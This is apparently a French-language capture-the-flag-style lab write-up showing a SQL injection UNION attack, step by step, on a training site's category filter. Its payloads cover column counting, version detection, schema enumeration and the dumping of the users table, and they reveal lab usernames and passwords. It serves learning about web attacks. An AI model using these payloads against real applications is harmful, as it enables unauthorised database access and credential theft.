 ## DESCRIPTION
------------------------------------------------------------------------------------------------------

This lab contains an SQL injection vulnerability in the product category filter.
The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords.
You need to determine the name of this table and the columns it contains, then retrieve the contents of the
table to obtain the username and password of all users.

To solve the lab, log in as the administrator user.

------------------------------------------------------------------------------------------------------

On récupère le nombre de colonnes ajoutant à la fin de la requête :
```
'ORDER BY 1--
'ORDER BY 2--
'ORDER BY 3-- = internal server error
```
Nous avons donc 2 colonnes.

On vérifie la compatibilité des colonnes avec le format string :
```
'UNION SELECT 'a',NULL--
'UNION SELECT NULL,'a'--
```
Les 2 colonnes sont compatibles.

On cherche ensuite sous quel type et quelle version tourne la database :
```
'UNION SELECT NULL,@@version-- = internal server error
'UNION SELECT NULL,version()-- = OK
```
On apprend donc que la database visée est sous PostgreSQL 12.11 : 
`PostgreSQL 12.11 (Ubuntu 12.11-0ubuntu0.20.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0, 64-bit`

Avec ces informations, on peut ensuite chercher le nom des tables. La documentation de PostgreSQL fournit des noms de colonne
par défaut pour l'information schema : https://www.postgresql.org/docs/12/infoschema-columns.html
tentons d'utiliser **table_name** et **column_name** : 

```
'UNION SELECT table_name,NULL FROM information_schema.tables--
```
Quelques noms de tables interessants font surface :
- pg_user
- users_inhaeu
- pg_database
- user_mappings

On peut essayer de récupérer les colonnes de ces différentes tables :
'UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name = 'pg_user'--

On y trouve d'autres colonnes que l'on pourrait tenter de récupérer :
- username
- passwd

```
'UNION SELECT passwd,NULL FROM pg_user--
```

On aperçoit un mot de passe, mais caché. surement un piège du lab pour indiquer subtilement qu'on est pas
sur la bonne piste. Après quelques tentatives infructueuses, je suis passé sur la seconde table :

'UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name = 'users_inhaeu'--

Résultat concluant, on tombe sur deux colonnes :
- username_iqcpbt
- password_avjxlc

On tente de nouveau l'approche effectuée précédemment sur la table pg_user :
```
'UNION SELECT password_avjxlc,username_iqcpbt FROM users_inhaeu--
Il s'agit cette fois-ci des bonnes colonnes, la page affiche :
```

- 9drt170gxf4rfszt99yr
- wiener
- pwahxf3nu0ou3llzqz5w
- carlos
- ******************** (mot de passe)
- administrator

Une fois le mot de passe obtenu, il suffit de se log en administrateur afin de terminer le lab.